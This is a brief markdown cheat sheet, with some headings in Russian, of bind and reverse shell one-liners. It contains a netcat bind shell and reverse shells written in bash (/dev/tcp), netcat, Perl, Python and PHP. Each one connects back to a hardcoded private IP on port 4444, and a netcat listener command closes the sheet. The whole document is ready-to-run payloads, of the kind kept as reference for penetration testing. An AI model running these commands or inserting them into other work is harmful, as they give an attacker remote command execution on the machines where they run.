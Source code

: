 #Bind Shell

##Nc
`nc -lvp 4444 -e /bin/sh`

##Подключение
`nc 192.168.1.135 4444`

#Reverse Shell

##Tcp Linux
bash -i >& /dev/tcp/172.15.9.212/4444 0>&1

##Nc

`nc 10.0.2.15 4444 -e /bin/bash`

##Perl

`perl -e 'use Socket;$i="192.168.1.135";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

##Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.135",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


##Php
`php -r '$sock=fsockopen("192.168.1.135",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

##Создание сервера
`nc -lvp 4444`